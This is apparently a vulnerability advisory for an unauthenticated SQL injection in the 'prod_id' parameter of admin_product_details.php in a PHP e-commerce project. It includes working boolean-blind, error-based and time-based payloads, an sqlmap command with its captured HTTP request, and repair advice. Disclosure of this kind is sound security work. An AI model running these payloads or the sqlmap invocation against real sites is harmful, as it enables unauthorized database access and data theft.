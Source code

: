 # E-Commerce Website Project V1.0 admin_product_details.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-Commerce Website

## Vendor Homepage

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Jiangjie, Lishudong at Guangzhou University

## VERSION(S)

- V1.0

## Software Link

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'admin_product_details.php' file of the 'E-Commerce Website' project. The reason for this issue is that attackers inject malicious code from the parameter "prod_id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-Commerce Website", discovered a critical SQL injection vulnerability in the "admin_product_details.php" file. This vulnerability stems from insufficient user input validation of the 'prod_id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based

## Vulnerability location:

- 'prod_id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND 8492=(SELECT (CASE WHEN (8492=8492) THEN 8492 ELSE (SELECT 4602 UNION SELECT 6755) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' OR (SELECT 8053 FROM(SELECT COUNT(*),CONCAT(0x7178706a71,(SELECT (ELT(8053=8053,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jgRm
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND (SELECT 5110 FROM (SELECT(SLEEP(5)))dWVF)-- ajZx
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914160248274](assets/image-20250914160248274.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /Electricks-shop/pages/admin_product_details.php?prod_id=1* HTTP/1.1
Host: 10.151.167.210:8887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive
```

# Attack results

![image-20250914160315253](assets/image-20250914160315253.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.